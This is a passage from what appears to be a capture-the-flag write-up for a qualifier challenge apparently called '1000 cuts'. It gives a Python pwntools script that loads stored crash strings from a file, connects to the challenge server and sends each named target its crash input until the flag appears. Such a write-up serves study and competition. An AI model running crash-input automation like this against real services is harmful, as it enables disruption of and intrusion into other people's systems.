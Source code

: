 
Now we have our attack strings in a flat file database, we simply need to attack the server as such:


```
#!/usr/bin/python

from pwn import *

host = '1000_cuts_1bf4f5b0948106ad8102b7cb141182a2.quals.shallweplayaga.me'
port = 11000

db = [x.strip() for x in open('hakdb.txt','r').readlines()]

crashstrings = {}

for line in db:
    target,data = line.split(':',1)
    target = target.split('/')[1]
    data = eval(data)
    crashstrings[target] = data[2]

conn = remote(host,port)
banner = conn.recvline()

while True:
    target = conn.recvline()

    if 'flag' in target:
        print "[-] flag: ",target
        conn.close()
        break

    print "[*] Target is ",target
    conn.sendline(crashstrings[target.strip()])

```
